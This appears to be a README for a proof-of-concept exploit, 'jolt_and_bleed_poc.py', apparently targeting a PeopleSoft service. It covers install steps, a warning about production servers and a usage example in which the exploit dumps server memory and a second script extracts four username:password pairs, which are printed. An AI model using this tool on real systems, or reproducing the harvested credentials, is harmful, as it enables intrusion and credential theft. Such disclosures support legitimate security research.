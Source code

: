 # Install
```
$ pip install --user hexdump
```
# WARNING
Don't test on productuion servers.

# Info
Tested on only on \*nix systems. 
```
$ psreleaseinfo
ToolsRelease: 8.55
ToolsReleaseDB: 8.55
```

# Usage example
```
$ python jolt_and_bleed_poc.py -s 192.168.56.101 -d out.bin -p 9034 9035 9036 9037 9038
...
...
Done

$ python extractCreds.py out.bin
RCLAYBURN:aeM9CuaXatohr1aixe9pohx4u
SADAMS:Ohl0ac4Gaasilae4Nouzoheeh
AJORDAN:peeW1bevoh7eitah1aucheegh
DMANAGER:ohquaix6aipoa6Euy7shu5moH
